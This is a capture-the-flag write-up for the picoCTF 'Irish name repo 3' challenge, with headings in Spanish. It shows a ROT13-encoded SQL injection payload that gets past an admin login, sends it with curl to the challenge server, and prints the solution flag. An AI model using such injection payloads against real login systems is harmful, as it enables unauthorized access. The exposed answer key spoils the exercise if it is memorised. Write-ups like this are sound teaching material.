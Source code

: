 # Irish name repo 3

## Objetivo

There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

## Hints

Seems like the password is encrypted.

## Solución

### Solución 1
```

password: 'or1=1;'
SQL query: SELECT * FROM admin where password = ''be1=1;''

password: holamundo
SQL query: SELECT * FROM admin where password = 'ubynzhaqb'

# Login failed.

password: 'be 1=1;
SQL query: SELECT * FROM admin where password = ''or 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}
```
```
```

```
jessy_vl-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/40742/login.php -d "password='be 1=1;&debug-1"
<h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}</p>jessy_vl-picoctf@webshell:~$ 
```

```
# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}


## Flag

picoCTF{3v3n_m0r3_SQL_4424e7af}
```

## Notas adicionales

La inyección de SQL generalmente ocurre cuando le pide a un usuario que ingrese, como su nombre de usuario/ID de usuario, y en lugar de un nombre/ID, el usuario le da una instrucción SQL que, sin saberlo, ejecutará en su base de datos.

## Referencias

- [SQL INJECTION]([https://www.w3schools.com/sql/sql_injection.asp))
- [cyberchef]([https://gchq.github.io/CyberChef/))
